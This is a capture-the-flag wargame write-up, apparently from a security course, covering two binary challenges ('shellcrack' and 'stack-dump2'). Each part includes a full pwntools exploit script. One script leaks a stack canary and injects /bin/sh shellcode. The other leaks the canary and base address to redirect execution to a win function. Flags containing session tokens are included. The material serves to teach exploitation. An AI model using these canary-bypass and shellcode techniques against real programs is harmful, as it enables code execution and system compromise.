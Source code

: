 # shellcrack

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNS1zaGVsbGNyYWNrIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6Ijk5ZGFkNTBlLTM2NTAtNDQ5ZS04YzA3LWMyZWJjMjFjZTdlOSJ9.UYl_iLANQFKnizzvSQw5teHQsVO3erIPGCQ3aSuK5ik}

## Scenario

There is an 8 byte long canary (generated from /dev/urandom) stored at ebp-0x14.  
Input is read into a buffer at ebp-0x44 to ebp-0x34, which is copied to ebp-0x24 to ebp-0x14.  
A vulnerability with the "%s" format specifier exists which allows the canary to be read from

## Solution

Send a name that is 16 bytes long, such as to remove the NULL terminator from the string.  
This will cause the program to print out the canary after the name.  
We can then perform a buffer overflow, and shellcode into the buffer whilst keeping the canary value correct.

## Script

```python3
from pwn import *

p = process("./shellcrack")
p = remote("plsdonthaq.me", 5001)

# Buffer from ebp-0x44 to ebp-0x34 copied to ebp-0x24 to ebp-0x14
# Canary is 8 bytes long at vuln::ebp-0x14 -> ebp-0x6

# the %s expansion will keep going until it hits a null byte
p.recvuntil('Enter as:')
nameStr = "." * 0x10
p.send(nameStr)
p.recvuntil("This is the 6447 wargaming gateway, " + nameStr)

# Get the 8 byte canary
canary = p.recvuntil("!\n", drop=True)[:8]
print(f"Canary is {bytearray(canary)}")

# Get the buffer address
p.recvuntil('Write your data to the buffer[')
buffer = int(p.recvuntil('].\n', drop=True), 16)
# :: buffer = ebp - 0x44
# :: ebp = buffer + 0x44
ebp = buffer + 0x44
print(f"Buffer at {hex(buffer)}")
print(f"vuln::ebp at {hex(ebp)}")

# Pop a shell
assembly = f"""
   push 0x0068732f
   push 0x6e69622f

   mov ebx, esp

   mov eax, 0xb
   mov ecx, 0
   mov edx, 0
   mov esi, 0
   int 0x80
"""

shellCode = asm(re.sub('#.*$', '', assembly, flags=re.MULTILINE))
print(f"Shellcode is {len(shellCode)} bytes long")

payload = b""
payload += shellCode                        # Put the shell code into the buffer
payload += b'\x90' * (0x30 - len(payload))  # Santa's NOP-sled
payload += canary                           # Place back the canary
payload += b'A' * 16                        # Padding to reach the old ebp
payload += p32(buffer)                      # Modify the return address to our shellcode

p.sendline(payload)

p.interactive() 
```

---

# stack-dump2

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNS1zdGFjay1kdW1wMiIsImlwIjoiMjAyLjg3LjE2Mi4yOCIsInNlc3Npb24iOiIzNzNjY2E0YS05MzE3LTQwOGUtYThlMi1iM2I3NmE5YzJiYjUifQ.7k0UECcN17jxnjYJqJsrgtQddBXb4GkEPqg0qytD20k}

## Scenario

Similar to the week 3 stack-dump exercise, however this time with all protections enabled.  
We will need to leak the canary (input -> dump) in order to successfully override the return address of main

## Solution

An address on the stack is given, which we can use to calculate the address of the canary. By then using the memory map, we can figure out where the win function address has been relocated to.  
With the canary value and the win address, we can perform a buffer overflow at ebp-0x68.

## Script

```python3
from pwn import *

p = process("./stack-dump2")
p = remote("plsdonthaq.me", 5002)

# Get the canary address
p.recvuntil("To make things easier, here's a useful stack pointer ")
stackAddr = int(p.recvline(keepends=False), 16)
print(f"Received stack address {hex(stackAddr)}")
ebp = stackAddr + 0x71
print(f"main::ebp = {hex(ebp)}")
canary_addr = ebp - 0x8
print(f"main::canary at {hex(canary_addr)}")

# Get the canary value
p.sendline(b'a')
p.recv()
p.sendline(b'5')
p.recv()
p.sendline(p32(canary_addr))
p.recv()
p.sendline('b')
p.recvuntil(": ")
canary = p.recvline(keepends=False)[:4]
print(f"Canary value is: {canary}")

# Get the win address
p.recv()
p.sendline(b'c')
BASE = int(p.recvline().split(b'-')[0], 16)
p.recv()
print(f"Program base address is {hex(BASE)}")
print(f"main should be at {hex(BASE + 0x796)}")
win_offset = 0x76d
win_addr = BASE + win_offset
print(f"win address at at {hex(win_addr)}")

# Perform the buffer overflow
payload = b""
payload += b'.' * (0x68-0x8)
payload += canary
payload += b'.' * 8
payload += p32(win_addr)

p.sendline(b'a')
p.sendline(str(len(payload) + 1))
p.sendline(payload)

# Now exit/return from main
p.sendline("d")
p.interactive()
```

---